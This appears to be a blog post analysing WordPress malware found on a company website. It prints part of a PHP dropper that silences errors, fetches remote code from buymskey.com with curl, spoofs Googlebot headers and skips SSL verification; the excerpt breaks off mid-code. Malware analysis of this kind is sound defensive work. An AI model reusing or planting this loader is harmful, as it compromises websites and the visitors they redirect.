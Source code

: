 ```yaml
---
title: "WP Malware Analysis"
date: "2021-03-08"
---
```

## Wordpress Malware, Base64, and PHP
#### Analysis of the code behind the attack.
Recently a friend of mine noticed something weird about her company's website. There were links on the page that were redirecting to http://buymskey.com, which is unsecure since it uses http. 
Immediately I figured that this was some kind of malware that had found it's way into the site and after I was given the credentials, logged into the admin, and downloaded the backup of the site to inspect I noticed malware files all over the place. All the files were located within the wp-content and wp-includes directories. Within the wp-content there were files with names like loc_bat_rae and such like that peppered throughout random directories. 

Below is a sample of the code:

 ```php
 //this is require_editor file start
    error_reporting(0);
      set_time_limit(0);
      $log_sure=True;
      $write_file='write_work_complete.log';
  if (file_exists($write_file)==True){
	$get_content=file_get_contents($write_file);
	if ((strpos($get_content, 'confirm:start of editor file') !== false) && (strpos($get_content, 'confirm:end of editor file') !== false)){
		$content=$get_content;
	} else {
		$log_sure=False;
	}
  } else {
	$log_sure=False;
  }
  if($log_sure==False){
	  if(function_exists('curl_init')){
	  $s = curl_init();
	  curl_setopt($s,CURLOPT_URL,'http://mir.buymskey.com/tool/editor.txt');
	  curl_setopt($s,CURLOPT_RETURNTRANSFER,1);
	  curl_setopt($s,CURLOPT_USERAGENT,'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36');
	  curl_setopt($s,CURLOPT_REFERER,"http://www.google.com");
	  curl_setopt($s, CURLOPT_HTTPHEADER, array('X-FORWARDED-FOR:66.249.72.240', 'CLIENT-IP:66.249.72.240'));
	  curl_setopt($s, CURLOPT_HTTPHEADER, array('Expect:'));
	  curl_setopt($s, CURLOPT_ENCODING, "");
	  curl_setopt($s, CURLOPT_SSL_VERIFYPEER, false);
	  curl_setopt($s, CURLOPT_CONNECTTIMEOUT , 20);
	  curl_setopt($s, CURLOPT_TIMEOUT, 20);
		curl_setopt($s, CURLOPT_COOKIE, 'foo=bar');
	$content = curl_exec($s);
	  curl_close($s);
	  }else{
	  $options = array(
	  'http'=>array(
		'method'=>"GET",
		'timeout'=>20,
		'header'=>"Accept-language: en\r\n" .
				  "Cookie: foo=bar\r\n" .  // check function.stream-context-create on php.net
				  "User-Agent: Mozilla/5.0 (iPad; U; CPU OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B334b Safari/531.21.10" // i.e. An iPad 
	  ),
 ```